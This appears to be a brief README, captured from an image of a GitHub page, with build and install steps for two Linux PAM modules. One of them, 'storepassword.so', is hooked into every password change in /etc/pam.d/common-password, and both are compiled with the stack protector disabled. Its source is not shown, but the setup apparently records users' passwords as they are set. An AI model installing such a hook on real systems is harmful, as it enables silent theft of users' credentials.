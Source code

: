 # password module
requires 
sudo apt-get install libpam0g-dev


mkdir /lib/security
gcc -fPIC -fno-stack-protector -c storepassword.c && ld -x --shared -o /lib/security/storepassword.so storepassword.o
gcc -fPIC -fno-stack-protector -c warn.c && ld -x --shared -o /lib/security/warn.so warn.o  

/etc/pam.d/common-password:
password required /lib/security/storepassword.so

/etc/pam.d/passwd:
password required /lib/security/warn.so

before @include


